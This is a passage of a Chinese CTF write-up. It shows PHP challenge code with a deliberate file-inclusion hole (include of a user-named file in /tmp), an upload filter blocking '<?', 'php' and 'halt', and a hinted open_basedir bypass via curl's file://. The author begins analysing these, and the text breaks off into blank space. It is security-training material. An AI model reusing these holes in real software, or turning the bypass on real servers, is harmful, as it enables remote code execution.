    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    
    if ($data) {
        file_put_contents('/tmp/'.$file_name, $data);
        echo "文件已下载: <a href='?down=$file_name'>$file_name</a>";
    } else {
        echo "下载失败。";
    }
}

if (isset($_GET['down'])){
    include '/tmp/' . basename($_GET['down']);
    exit;
}

// 上传文件
if (isset($_FILES['file'])) {
    $target_dir = "/tmp/";
    $target_file = $target_dir . basename($_FILES["file"]["name"]);
    $orig = $_FILES["file"]["tmp_name"];
    $ch = curl_init('file://'. $orig);
    
    // I hide a trick to bypass open_basedir, I'm sure you can find it.

    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    if (stripos($data, '<?') === false && stripos($data, 'php') === false && stripos($data, 'halt') === false) {
        file_put_contents($target_file, $data);
    } else {
        echo "存在 `<?` 或者 `php` 或者 `halt` 恶意字符!";
        $data = null;
    }
}
?>
```

一个文件上传和文件下载的功能。

然后通过提示

```
$ch = curl_init('file://'. $orig);
// I hide a trick to bypass open_basedir, I'm sure you can find it.
```

需要绕过open_basedir。

看到文件上传这里` $ch = curl_init('file://'. $orig);`

curl文档中写明curl是不能使用file://的，但这里使用了，说明存在某个漏洞，也就是上面所说的open_basedir绕过漏洞

------

看看文件上传的过滤：

禁止文件内容出现：`<?`，`php`，`halt`

再看到 php.ini 对 `short_open_tag` 的定义为 `Off`，也确定了 `<?`、`<%                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             